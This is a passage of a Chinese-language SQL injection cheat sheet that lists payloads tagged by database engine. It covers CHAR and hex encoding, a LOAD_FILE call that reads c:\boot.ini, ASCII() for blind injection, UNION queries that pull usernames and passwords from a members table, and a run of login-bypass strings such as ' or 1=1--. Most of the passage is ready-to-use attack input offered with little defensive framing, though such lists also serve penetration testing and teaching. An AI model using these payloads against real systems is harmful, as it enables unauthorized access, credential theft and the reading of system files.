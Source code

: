 *   `SELECT CHAR(75)+CHAR(76)+CHAR(77)`(S)
    
    这会返回'KLM'
    

#### 使用了16进制的注入攻击样例

*   `SELECT LOAD_FILE(0x633A5C626F6F742E696E69)`(M)
    
    这会显示**c:\boot.ini**的内容
    

### 字符串异化(Modification)与联系

*   `ASCII()`(SMP)
    
    返回最左边字符的ASCII码的值。这是一个用于盲注的重要函数。
    
    例：`SELECT ASCII('a')`
    
*   `CHAR()`(SM)
    
    把整数转换为对应ASCII码的字符
    
    例：`SELECT CHAR(64)`
    

### Union注入

通过union你能跨表执行查询。最简单的，你能注入一个查询使得它返回另一个表的内容。`SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members`

这会把news表和members表的内容合并返回。

另一个例子：`' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

#### UNION-语言问题处理

当你使用Union来注入的时候，经常会遇到一些错误，这是由于不同的语言的设置（表的设置、字段设置、表或数据库的设置等等）。这些办法对于解决那些问题都挺有用的，尤其是当你处理日文，俄文，土耳其文的时候你会就会见到他们的。

*   使用`COLLATE SQL_Latin1_General_Cp1254_CS_AS`(S)
    
    或者其它的什么语句，具体的自己去查SQL Server的文档。 例：`SELECT header FROM news UNION ALL SELECT name COLLATE SQL_Latin1_General_Cp1254_CS_AS FROM members`
    
*   `Hex()`(M)
    
    百试百灵~
    

### 绕过登陆界面(SMO+)

_SQL注入101式_(大概是原文名字吧？),登陆小技巧

*   `admin' --`
*   `admin' #`
*   `admin'/*`
*   `' or 1=1--`
*   `' or 1=1#`
*   `' or 1=1/*`
*   `') or '1'='1--`
*   `') or ('1'='1--`
*   ....
*   以不同的用户登陆 (SM*)`' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`
